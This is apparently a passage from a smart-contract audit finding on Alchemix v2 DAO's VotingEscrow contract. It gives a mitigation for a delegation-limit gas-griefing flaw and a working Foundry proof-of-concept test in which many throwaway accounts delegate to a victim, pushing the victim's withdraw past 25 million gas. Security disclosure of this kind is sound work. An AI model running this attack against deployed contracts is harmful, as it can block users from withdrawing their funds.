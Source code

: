 Adjust the `MAX_DELEGATES` from 1024 to 128 Or Give an option for users to opt-out/opt-in for a certain delegated tokens. Users will only accept the delegated tokens if they opt-in, or users can opt-out to refuse any uncommissioned delegated tokens.
## References

- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1033-L1052
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1103-L1130
        
## Proof of concept
## Proof Of Concept

**Steps to Run using Foundry:**
- Paste following foundry code in `src/test/VotingEscrow.t.sol`
- Run using `FOUNDRY_PROFILE=default forge test --fork-url $FORK_URL --fork-block-number 17133822 --match-contract VotingEscrowTest --match-test testDelegateLimitAttack -vv`

```solidity
function testDelegateLimitAttack() public {
    // Give some tokens to this contract
    hevm.startPrank(address(admin));
    IERC20(bpt).transfer(address(this), TOKEN_1M);
    hevm.stopPrank();

    // Give full approval to voting escrow
    IERC20(bpt).approve(address(veALCX), type(uint256).max);

    uint EPOCH = veALCX.EPOCH();

    uint tokenId = veALCX.createLock(TOKEN_1, EPOCH, false);

    for(uint256 i = 0; i < veALCX.MAX_DELEGATES() - 1; i++) {
        hevm.roll(block.number + 1);
        hevm.warp(block.timestamp + 12);
        
        address fakeAccount = address(uint160(block.timestamp + i));
        IERC20(bpt).transfer(fakeAccount, 1);

        hevm.startPrank(fakeAccount);
        IERC20(bpt).approve(address(veALCX), type(uint256).max);
        veALCX.createLock(1, MAXTIME, true);
        veALCX.delegate(address(this));
        hevm.stopPrank();
    }
    
    hevm.roll(block.number + 1);
    hevm.warp(block.timestamp + EPOCH);
    veALCX.startCooldown(tokenId);

    hevm.roll(block.number + 1);
    hevm.warp(block.timestamp + EPOCH);

    uint initialGas = gasleft();
    veALCX.withdraw(tokenId);
    uint gasUsed = initialGas - gasleft();
    
    console.log("Gas Used in total: ", gasUsed);
    assertGt(gasUsed, 25_000_000);
}
```
